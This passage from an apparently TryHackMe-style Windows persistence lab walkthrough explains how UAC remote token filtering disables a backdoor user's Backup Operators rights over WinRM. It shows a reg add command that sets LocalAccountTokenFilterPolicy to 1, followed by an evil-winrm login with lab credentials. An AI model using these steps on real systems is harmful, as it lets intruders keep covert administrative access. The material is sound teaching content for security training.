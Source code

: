 ```shell-session
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

If you tried to connect right now from your attacker machine, you'd be surprised to see that even if you are on the Backups Operators group, you wouldn't be able to access all files as expected. A quick check on our assigned groups would indicate that we are a part of Backup Operators, but the group is disabled: 
- This is due to User Account Control (**UAC**). One of the features implemented by UAC, **LocalAccountTokenFilterPolicy**, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session (Read more on UAC [here](https://tryhackme.com/room/windowsfundamentals1xbx)), if you are using WinRM, you are confined to a limited access token with no administrative privileges.

To be able to regain administration privileges from your user, we'll have to disable `LocalAccountTokenFilterPolicy` by changing the following registry key to 1:
```shell-session
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Once all of this has been set up, we are ready to use our backdoor user:
```shell-session
user@AttackBox$ evil-winrm -i 10.10.6.17 -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```
